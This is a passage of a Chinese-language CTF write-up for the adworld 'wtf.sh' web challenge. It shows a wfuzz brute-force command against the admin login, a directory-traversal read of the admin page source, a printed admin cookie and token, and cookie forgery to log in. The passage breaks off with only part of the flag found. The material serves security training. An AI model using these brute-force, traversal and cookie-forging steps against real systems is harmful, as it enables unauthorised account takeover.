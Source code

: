 ### wtf.sh-150-adworld



首先是个登录和注册窗口，看到有一堆人留言



尝试目录爆破，无果



登录admin提示被注册，构造Wfuzz爆破密钥，无果

```
wfuzz -c -z file,/home/kali/fuzzDicts/passwordDict/top3000.txt --hs "Try again" -d "username=admin&password=FUZZ" http://61.147.171.105:59727/login.wtf #其中hs是过滤字符串，这样会显示出爆破成功的
```

![image-20240924122500388](C:\Users\10649\AppData\Roaming\Typora\typora-user-images\image-20240924122500388.png)

随便点击几个目录，发现了url的跳动

首先尝试有没有目录遍历漏洞，还真有，查看感兴趣的admin，找到了flag获得方式

```php
# vim: ft=wtf
$ source user_functions.sh

<html>
  <head>
    <link rel="stylesheet" type="text/css" href="/css/std.css">
  </head>

  $ if contains 'user' ${!URL_PARAMS[@]} && file_exists "users/${URL_PARAMS['user']}"
  $ then
    # Extract username from the file
    $ local username=$(head -n 1 users/${URL_PARAMS['user']});
    
    # Display the user's posts
    $ echo "<h3>${username}'s posts:</h3>";
    $ echo "<ol>";
    
    # Get user's posts and iterate over them
    $ get_users_posts "${username}" | while read -r post; do
      # Extract post slug from the post file
      $ post_slug=$(awk -F/ '{print $2 "#" $3}' <<< "${post}");
      
      # Display each post with link to the specific post
      $ echo "<li><a href=\"/post.wtf?post=${post_slug}\">$(nth_line 2 "${post}" | htmlentities)</a></li>";
    $ done
    
    $ echo "</ol>";

    # If the logged-in user is admin and the viewed user's name is 'admin', get flag
    $ if is_logged_in && [[ "${COOKIES['USERNAME']}" = 'admin' ]] && [[ ${username} = 'admin' ]]
    $ then
      $ get_flag1
    $ fi
  $ fi
</html>

```

枚举目录，获得admin的cookie

![image-20240924125338197](C:\Users\10649\AppData\Roaming\Typora\typora-user-images\image-20240924125338197.png)

```
ae475a820a6b5ade1d2e8b427b59d53d15f1f715
uYpiNNf/X0/0xNfqmsuoKFEtRlQDwNbS2T6LdHDRWH5p3x4bL4sxN0RMg17KJhAmTMyr8Sem++fldP0scW7g3w==
```

得到admin的token，然后直接伪造cookie登录



然而这只是得到了flag的一部分，还有一截？？